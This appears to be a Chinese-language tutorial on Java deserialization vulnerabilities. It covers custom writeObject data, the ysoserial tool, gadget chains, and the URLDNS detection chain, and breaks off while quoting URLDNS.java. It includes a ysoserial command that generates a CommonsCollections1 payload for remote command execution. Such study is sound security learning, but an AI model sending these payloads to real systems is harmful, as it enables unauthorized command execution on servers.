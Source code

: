 可见，我这里在执行完默认的 s.defaultWriteObject() 后，我向stream里写入了一个字符串 This  is an object 。

![image-20250228192803068](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202502281928138.png)

我们写入的This is a object 被放在 objectAnnotation 的位置。

![](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202502281940659.png)

在反序列化时，我读取了这个字符串，并将其输出了，这个特性就让Java的开发变得非常灵活



#### 反序列化（2）

##### ysoserial

在说反序列化漏洞利用链前，我们需要知道一个工具[ysoserial](https://github.com/frohoff/ysoserial)

ysoserial可以让用户根据自己选择的利用链，生成反序列化数据，通过讲这些数据发送给目标，从而执行用户的命令

什么是利⽤链？

利⽤链也叫“gadget chains”，我们通常称为gadget。如果你学过PHP反序列化漏洞，那么就可以将gadget理解为⼀种⽅法，它连接的是从触发位置开始到执⾏命令的位置结束，在PHP⾥可能是 __desctruct 到 eval ；如果你没学过其他语⾔的反序列化漏洞，那么gadget就是⼀种⽣成POC的⽅法罢了

ysoserial的使用很简单，虽然我们暂时不理解CommonsCollections利用链，但使用 ysoserial可以很容易生成这个gadget对应的POC:

```
java -jar ysoserial-master-30099844c6-1.jar CommonsCollections1 "id" 1
```

如上，ysoserial⼤部分的gadget的参数就是⼀条命令，⽐如这⾥是 id 。⽣成好的POC发送给⽬标，如果⽬标存在反序列化漏洞，并满⾜这个gadget对应的条件，则命令 id 将被执⾏。

##### URLDNS

URLDNS是ysoserial中一个利用链的名字，但准确来说，这个其实不能称作"利用链"。因为其参数不是一个可以利用的命令，而仅作为一个URL，其能触发的结果也不是命令执行，而是一次DNS请求

虽然这个“利用链”实际上是不能利用的，但因为其如下优点，非常适合我们在检测反序列化漏洞时使用

- 使⽤Java内置的类构造，对第三⽅库没有依赖
- 在⽬标没有回显的时候，能够通过DNS请求得知是否存在反序列化漏洞

所以是用来检测是否存在java反序列化?

我们打开https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/URLDNS.java看看ysoserial是如何⽣成 URLDNS 的代码的：

```java
package ysoserial.payloads;

import java.io.IOException;
import java.net.InetAddress;
import java.net.URLConnection;
import java.net.URLStreamHandler;
import java.util.HashMap;
import java.net.URL;

import ysoserial.payloads.annotation.Authors;
import ysoserial.payloads.annotation.Dependencies;
import ysoserial.payloads.annotation.PayloadTest;
import ysoserial.payloads.util.PayloadRunner;
import ysoserial.payloads.util.Reflections;


/**
 * A blog post with more details about this gadget chain is at the url below:
 *   https://blog.paranoidsoftware.com/triggering-a-dns-lookup-using-java-deserialization/
 *
 *   This was inspired by  Philippe Arteau @h3xstream, who wrote a blog
 *   posting describing how he modified the Java Commons Collections gadget
 *   in ysoserial to open a URL. This takes the same idea, but eliminates
 *   the dependency on Commons Collections and does a DNS lookup with just
```